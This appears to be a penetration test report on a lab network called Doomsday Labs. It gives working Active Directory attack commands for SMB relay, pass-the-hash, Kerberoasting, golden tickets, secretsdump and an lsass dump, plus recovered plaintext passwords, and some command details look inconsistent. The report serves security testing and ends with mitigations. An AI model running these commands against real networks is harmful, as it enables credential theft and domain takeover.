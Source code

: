 # Comprehensive Penetration Testing Report for Doomsday Labs

## Executive Summary
This document details the penetration testing activities undertaken against Doomsday Labs' network, specifically scoped within the IP range 10.100.1.2 to 10.100.1.7. The objective was to identify vulnerabilities and to assess the potential impacts on the network's security posture. The testing involved several methodologies including OSINT, SMB Relay attacks, Credential Dumping, and Active Directory Exploitation.

## Test Environment
- **Scope**: Targeted IP addresses from 10.100.1.2 to 10.100.1.7.
- **Tools Used**: Nmap, Crackmapexec, Responder, Hashcat, Impacket, Bloodhound, Neo4j, pypykatz, Evil-WinRM

## Key Exploits and Findings

### SMB Relay and Credential Harvesting
- **Target File**: `targets.txt` (contains the scope of testing IP addresses)
- **Method**: Utilized Crackmapexec and Impacket's ntlmrelayx for SMB Relay attacks to capture and relay NTLM hashes.
    ```
    crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt -socks
    impacket-ntlmrelayx -smb2support -tf targets.txt
    ```
- **Outcome**: Successfully captured NTLM hashes and relayed them to gain unauthorized access to network systems, this allowed us to gain our initial credentials for further testing.

### Credential Dumping
- **Tools**: Evil-WinRM, pypykatz
- **Example Command**:
    ```
    evil-winrm -i 10.100.1.4 -u info -H 322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0
    ```
- **Results**: Accessed hosts using dumped NTLM hashes and manually dumped credentials using pypykatz on compromised systems.
- Plaintext Password: Football24

### Active Directory and Kerberos Attacks
- **Enumeration**:
    ```
    impacket-GetADUsers doomsdaylabs.net/filemaker:Football24 -dc-ip 10.100.1.2 -all
    ```
- **Kerberoasting**:
    ```
    impacket-GetUserSPNs doomsdaylabs.net/filemaker -dc-ip 10.100.1.2 -request
    ```
    Attempted to crack Kerberos tickets using Hashcat.
- **Pass the Ticket & Golden Ticket Creation**:
    ```
    impacket-ticketer -nthash     doIF0jCCBc6gAwIBBaEDAgEWooIEyz...[snipped]...NXU/rX266m632YeSk3csEUpoKMTPZ -domain-sid S-1-5-21-2774200336-3400690103-1452933870-1111 -domain doomsdaylabs.net da.admin
    KRB5CCNAME=./Administrator.ccache impacket-secretsdump -k -no-pass -dc-ip 10.100.1.2 -target-ip 10.100.1.2 dc.doomsdaylabs.net
    ```
- Plaintext password: Sunshine24

### Bloodhound Analysis for Lateral Movement
- **Objective**: Utilize Bloodhound to identify and exploit lateral movement pathways within the network.
- **Process**:
    - Repeated use of Bloodhound to map out different phases of lateral movement as administrative privileges were escalated throughout the network.

## Lateral Movement Pathways
Detailed steps of movement from initial access on a file share to domain privilege escalation:
- **Initial Access**:
    - Placed a malicious LNK file on an SMB Share to capture FileMaker's NetNTLM hash.
    - Credentials obtained were used to access a workstation (first lateral movement).
- **Subsequent Movements**:
    - Leveraged administrative privileges on different machines, used credentials for Kerberoasting, and eventually gained access to the domain controller.

## Recommendations
- **SMB Relay Attack Mitigation**: Implement SMB signing and enforce strict authentication checks to mitigate relay attacks.
- **Credential Security**: Enhance monitoring of credential usage and implement multi-factor authentication where possible.
- **Active Directory Security**: Regularly update and patch Active Directory environments. Use advanced monitoring tools like Bloodhound to detect unusual patterns of movement or privilege escalation.

## Conclusion
The penetration test revealed several critical vulnerabilities in Doomsday Labs' network that could potentially be exploited by malicious actors to gain unauthorized access and control over network resources. It is recommended that the findings and recommendations detailed in this report be addressed promptly to improve the security posture of the organization.

## Appendix
- **Tools and Commands**:
    - `crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt`
    - `impacket-ntlmrelayx -smb2support -tf targets.txt`
    - `evil-winrm -i 10.100.1.4 -u filemaker -H NThash`
    - `pypykatz lsa minidump lsass.dmp`

## References
- [Hashcat Rule-based Attack Guide](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [CrackMapExec Kali Tool](https://www.kali.org/tools/crackmapexec/)
- [Using Hashcat for Rule-based Attacks](https://www.armourinfosec.com/performing-rule-based-attack-using-hashcat/)

